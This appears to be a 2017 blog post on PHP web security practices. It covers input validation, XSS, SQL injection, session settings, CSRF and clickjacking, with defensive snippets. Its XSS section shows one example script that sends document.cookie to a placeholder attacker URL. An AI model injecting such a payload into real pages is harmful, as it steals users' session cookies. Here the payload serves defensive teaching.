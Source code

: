 ```yaml
---
layout: post
title: "Web Development Security"
description: Good practices about security in web development
headline:
modified: 2017-07-20
category: development
tags: [Information security, PHP]
image:
  feature:
comments: true
mathjax:
---
```


## Introduction
A secure application is as important (or even more, depending on it's type) as a well-written one.
Unfortunately, not so many developers are concerned about that topic.
Overall, following some simple rules can improve a lot the security of applications.  
Here I will focus on PHP examples, but the concept may be adapted to other languages.

## Pillars of Information Security
- Confidentiality
- Integrity
- Availability

## Principles
- Multiple Layer Security
- Consider that each layer will eventually fail
- Provide the minimum amount of information required

## Validate user input
Since HTTP requests can be manipulated client-side, all user input must be validated.

### Protection
- PHP offers the extensions ***ctype*** and ***filter***.
In addition, most frameworks implement some sort of data sanitization.
- PHP 7+ provides ***type declarations*** that allow you to specify the expected type of parameters.  
```php
declare(strict_types = 1);
```

## Cross-site scripting (XSS)
When a user-supplied script is stored and/or executed by the application.


### Example
Assuming that an application allows input via GET method, a malicious attacker do this injection:
```javascript
<script>
(New Image()).src = "http://attacker_url/?" + escape(document.cookie);
</script>
```

### Types
* Stored
* Non-persistent
* Based on DOM


### Consequences
- Cookie/session theft
- DOM Manipulation
- Keylogger
- Browser exploits
- Everything JavaScript allows


### Protection
- [Same-origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) only allows access to code from the same *origin* (protocol/domain/port) of the application, while allowing access to external files (a lib such as [JQuery](https://jquery.com), for example)
- Filter user input ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escape output ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.Htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Apply [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*) -> delete inline code

### Testing the CSP
A report is created when related warnings are generated by the application.
```
Content-Security-Policy-Report-Only
Report-uri /path/file.php
```

## SQL Injection

### Protection
- Do not concatenate data (parameters) with SQL queries
- Validate user input
- Use prepared statements
- Escape characters

## Status Management

### Protection
- Use HTTPS
- Set *secure* and *HttpOnly* *flags*
- Prevent XSS
- [Change](http://php.net/manual/en/function.session-regenerate-id.php) Session ID
- Store some distinctive user information in session
- Detect session hijacking (token)
- Use [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) to hinder session theft


### Policies
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age = 86400; includeSubDomains
```

## Cross-site Request Forgery (CSRF)
- Caused by viruses, scam/phishing, malicious site/redirect

### Protection
- Submit token
- Do not use GET for operations involving data manipulation (just a good practice, because POST can also be manipulated)

### Clickjacking
- Attacker creates fake page and through requests to the target site (usually via iframe), takes advantage of the user session

#### Protection
```php
header('X-FRAME-OPTIONS', 'DENY'); // or SAMEORIGIN
```

## Tools
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)


## References
[OWASP](https://www.owasp.org)
